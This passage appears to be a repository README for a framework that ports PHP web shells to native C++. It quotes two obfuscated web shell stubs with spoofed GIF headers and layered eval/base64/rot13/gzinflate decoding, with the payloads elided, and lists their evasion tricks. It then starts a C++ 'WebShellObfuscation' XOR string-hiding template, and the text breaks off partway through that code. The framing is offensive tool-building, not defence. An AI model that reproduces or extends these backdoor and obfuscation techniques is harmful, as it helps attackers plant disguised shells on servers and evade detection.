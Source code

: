 # PHP to C++ Web Shell Conversion Framework

## Overview

This framework demonstrates how to convert PHP web shell functionality to native C++ applications that run without requiring web hosting infrastructure. The solution analyzes the provided PHP shells and implements equivalent functionality using modern C++ techniques.

## Analyzed PHP Shells

### Shell 1: `food.php`
```php
GIF89aGlobex
<?php eval(gzinflate(str_rot13(base64_decode('...'))));?>
```

**Identified Techniques:**
- **GIF Header Spoofing**: Uses `GIF89aGlobex` to disguise as image file
- **Multi-layer Obfuscation**: `eval(gzinflate(str_rot13(base64_decode(...))))`
- **Compression**: `gzinflate()` for payload compression
- **ROT13 Encoding**: `str_rot13()` for string obfuscation
- **Base64 Encoding**: `base64_decode()` for data encoding

### Shell 2: `views.php`
```php
GÝF89;a
<?php $OOO000000=urldecode('%66%67%36%73%62%65%68%70%72%61%34%63%6f%5f%74%6e%64');
eval($OOO0000O0('...')); ?>
```

**Identified Techniques:**
- **GIF Header Spoofing**: Uses `GÝF89;a` variant
- **URL Encoding**: `urldecode()` for string decoding
- **Variable Function Calls**: Dynamic function execution
- **String Substitution**: Character substitution cipher
- **Obfuscated Variable Names**: `$OOO000000`, `$OOO0000O0`

## C++ Implementation Strategy

### 1. String Obfuscation Engine

**PHP Equivalent:**
```php
eval(gzinflate(str_rot13(base64_decode($data))));
```

**C++ Implementation:**
```cpp
namespace WebShellObfuscation {
    constexpr char XOR_KEY = 0x73;
    
    template<int N>
    struct XorString {
        char data[N + 1];
        constexpr XorString(const char* str) : data{} {
            for (int i = 0; i < N; ++i) {
                data[i] = str[i] ^ XOR_KEY;
            }
        }
        
        std::string decrypt() const {
            std::string result;
            for (int i = 0; i < N; ++i) {
```